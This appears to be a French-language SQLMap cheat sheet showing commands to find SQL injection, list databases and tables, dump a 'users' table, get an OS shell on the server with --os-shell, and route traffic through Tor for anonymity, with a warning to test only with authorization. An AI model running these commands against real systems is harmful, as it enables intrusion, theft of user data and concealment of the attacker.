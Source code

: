 # 💉 SQLMap : Le Maître des Injections SQL

SQLMap est un outil d'injection SQL open source et entièrement automatisé. Son but est de détecter et d'exploiter les failles d'injection SQL pour prendre le contrôle de serveurs de bases de données.

Pensez-y comme un expert en crochetage de serrures qui, au lieu de portes, ouvre des bases de données.

---

### 🎯 **Objectif Principal**

Lorsqu'un site web utilise vos entrées (ex: un paramètre dans l'URL) pour construire une requête vers sa base de données, il peut être vulnérable. SQLMap automatise le processus de détection de cette faille, son exploitation, et l'extraction de données précieuses.

**⚠️ Avertissement Éthique :** L'injection SQL est une attaque active. Ne l'utilisez que sur des applications pour lesquelles vous avez une autorisation de test explicite.

---

### 🛠️ **Les Recettes Essentielles de SQLMap**

SQLMap est un outil conversationnel. Il vous posera souvent des questions. Pour automatiser, on utilise souvent l'option `--batch`.

#### 1. Le Scan de Base : "Y a-t-il une faille ici ?"

C'est la première étape. On donne à SQLMap une URL complète, y compris la partie qui semble suspecte (le paramètre).

```bash
# Teste le paramètre 'id' sur l'URL donnée
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --batch
```

*   `-u` : L'URL cible. Mettez-la **toujours entre guillemets** pour éviter les problèmes avec les caractères spéciaux comme `&`.
*   `--batch` : Répond automatiquement "oui" aux questions de SQLMap. Pratique pour les scans automatisés.

SQLMap va tester une multitude de techniques. S'il trouve une faille, il vous le dira.

#### 2. Lister les Bases de Données : "Quels sont les trésors disponibles ?"

Une fois la faille confirmée, la première chose à faire est de voir quelles bases de données sont accessibles.

```bash
# Liste toutes les bases de données accessibles via la faille
sqlmap -u "http://.../?id=1" --dbs --batch
```

*   `--dbs` : Demande à SQLMap de lister les bases de données (`databases`).

#### 3. Explorer une Base de Données : "Montre-moi les tables"

Maintenant, choisissons une base de données (ex: `acuart`) et listons les tables qu'elle contient.

```bash
# Liste les tables de la base de données 'acuart'
sqlmap -u "http://.../?id=1" -D acuart --tables --batch
```

*   `-D acuart` : Spécifie la base de données (`Database`) à utiliser.
*   `--tables` : Demande la liste des tables.

#### 4. Dumper le Contenu : "Je veux tout !"

C'est l'étape finale. On choisit une table (ex: `users`) dans une base de données (`acuart`) et on extrait tout son contenu.

```bash
# Extrait (dump) toutes les données de la table 'users' de la base de données 'acuart'
sqlmap -u "http://.../?id=1" -D acuart -T users --dump --batch
```

*   `-T users` : Spécifie la table (`Table`) à cibler.
*   `--dump` : Demande à SQLMap d'extraire les données.

---

### ✨ **Astuces de Pro**

*   **Tester un formulaire POST** : Si la faille n'est pas dans l'URL mais dans un formulaire, sauvegardez la requête HTTP dans un fichier (`request.txt`) avec un outil comme Burp Suite, puis donnez-le à SQLMap.
    ```bash
    sqlmap -r request.txt --batch
    ```

*   **Niveau de Risque et de Profondeur (`--level`, `--risk`)** : Par défaut, SQLMap est prudent. Pour des tests plus poussés (et plus "bruyants"), vous pouvez augmenter ces niveaux.
    ```bash
    # Un scan beaucoup plus agressif et complet
    sqlmap -u "http://.../?id=1" --level=5 --risk=3 --batch
    ```

*   **Obtenir un Shell sur le Système (`--os-shell`)** : Si les conditions sont réunies (droits de la base de données, configuration du serveur), SQLMap peut parfois obtenir un véritable terminal sur le serveur cible. C'est le Saint Graal de l'injection SQL.
    ```bash
    sqlmap -u "http://.../?id=1" --os-shell --batch
    ```

*   **Utiliser Tor pour l'anonymat** : SQLMap peut router son trafic via le réseau Tor si vous avez Tor d'installé et configuré.
    ```bash
    sqlmap -u "http://.../?id=1" --tor --tor-type=SOCKS5
    ```

---

SQLMap est un outil d'une densité impressionnante. Sa maîtrise demande du temps, mais il est capable de transformer une simple erreur de programmation web en un accès complet à un système. Prenez le temps de lire ses très nombreuses options avec `sqlmap -hh`.
